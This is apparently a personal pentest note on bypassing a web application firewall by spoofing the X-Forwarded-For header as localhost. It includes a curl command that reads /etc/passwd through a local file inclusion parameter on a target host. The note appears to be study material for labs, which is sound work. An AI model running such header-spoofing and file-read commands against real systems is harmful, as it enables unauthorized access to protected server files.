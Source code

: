 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### WAF Web Application Firewall

![[Pasted image 20220307105734.png]]

WAF: Access Denied for this Host.


X-Forwarded-For Header

"The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."

```burpsuite - kali
X-Forwarded-For: 127.0.0.1
```

Ensure we have TWO blank lines under this (lines 8 and 9 in photo)

![[Pasted image 20220307111047.png]]

LFI
![[Pasted image 20220307120119.png]]

```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

[[3._LFI RFI]]

#### Examples

[[GraphQL Graphiql]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
